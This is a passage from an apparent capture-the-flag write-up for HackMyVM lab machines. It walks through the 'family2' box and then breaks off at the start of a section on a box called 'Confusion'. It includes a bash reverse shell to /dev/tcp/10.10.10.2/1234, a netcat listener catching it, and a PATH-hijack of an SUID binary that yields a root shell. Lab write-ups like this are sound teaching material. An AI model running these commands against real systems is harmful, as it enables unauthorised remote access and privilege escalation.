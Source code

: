 {% endhighlight %}	

Next user:

{% highlight shell %}
mum@family2:~$ sudo -l
Matching Defaults entries for mum on family2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mum may run the following commands on family2:
    (root) NOPASSWD: /usr/bin/shred -f -z /etc/passwd
    (dad) ALL
mum@family2:
{% endhighlight %}	

Reverse shell:

{% highlight shell %}
mum@family2:/tmp$ sudo -u dad bash -i >& /dev/tcp/10.10.10.2/1234 0>&1
{% endhighlight %}

And dad:

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/family2]
└─# nc -nvlp 1234                     
listening on [any] 1234 ...
connect to [10.10.10.2] from (UNKNOWN) [10.10.10.14] 36436
dad@family2:/tmp$
{% endhighlight %}

Dad can run an SUID binary in /opt with an unquoted path to date, so that's root:

{% highlight shell %}
dad@family2:/tmp$ printf 'sh\n' > date
printf 'sh\n' > date
dad@family2:/tmp$ chmod +x date
chmod +x date
dad@family2:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
dad@family2:/tmp$ /opt/clock
/opt/clock
id
uid=0(root) gid=1000(dad) groups=1000(dad)
cd /root
{% endhighlight %}

Done.

## Confusion
A bit trickier, this one. Two ports only (SSH and 32145)

## 32145
Netcat gives us this:

